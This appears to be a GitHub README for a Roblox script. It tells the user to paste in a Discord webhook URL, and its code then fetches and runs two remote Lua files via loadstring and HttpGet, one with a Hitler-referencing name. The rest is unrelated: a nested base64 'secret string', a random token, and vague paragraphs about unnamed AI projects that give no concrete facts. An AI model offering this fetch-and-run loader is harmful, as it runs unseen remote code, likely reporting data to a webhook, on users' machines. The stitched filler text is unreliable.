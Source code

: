 # The Script
```
-- Discord Webhook URL
getgenv().DiscordWebhook = "" -- Put your discord webhook url here
getgenv().EmbedColor = "" -- Put the Embed Color here (the left side of the embed)

-- Loadstrings
loadstring(game:HttpGet("https://raw.githubusercontent.com/Endeictic/Scriptzzb/main/Ganterub.lua"))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/Endeictic/Scriptzzb/main/Adolf-AustrianPainter.lua"))()

```












# Super secret string
Vm1wSmQwMVdXWGhXV0d4VFlrZG9XVmxVVG05WFZsVjNWbTFHVmxac2NFZFdWM1JQWVdzeGMxTnJiRlZpUjFGNlZVWkZPVkJSUFQwPQ== <-- very secret string

fuRifKXqOL0ltne <-- real accurate string (is it? is it not? YOU DECIDE!!)

## Super Secretive Project on December 25th, 1999
On December 25th, 1999, a secret project was rumored to have been undertaken by a group of scientists and engineers. The exact nature of the project was unknown, but it was said to involve groundbreaking research in the field of artificial intelligence. The project was shrouded in secrecy, with only a select few individuals aware of its existence. Some speculated that the project involved the creation of a highly advanced AI system that would revolutionize the way we interact with technology. Others believed that the project had more sinister intentions, and that it was an attempt to create a new form of weapon or surveillance system. Despite the rumors, the details of the project remained a mystery, and to this day, no concrete information has ever been revealed about what took place on that fateful Christmas Day.

## Public Project on October 7th 2011
On October 7th, 2011, a groundbreaking public artificial intelligence project was underway. The project was an ambitious initiative aimed at creating an advanced AI system that could perform complex tasks, learn from experience, and interact with humans in a natural way. The project was led by a team of researchers and engineers who worked tirelessly to develop and refine the AI's algorithms and software. The project was widely publicized, and many people were excited about the prospect of a new era of intelligent machines that could potentially change the world as we know it. The AI project was designed to be open-source, allowing anyone to contribute to the project and use the resulting software for their own purposes. This made the project accessible to a wide range of people, from hobbyists to researchers and businesses. Although the project faced many challenges and setbacks along the way, it ultimately succeeded in creating an AI system that was capable of performing a wide range of tasks, from natural language processing to image recognition and even playing games. The success of the project was a major milestone in the development of artificial intelligence, paving the way for future breakthroughs and innovations in this exciting field.
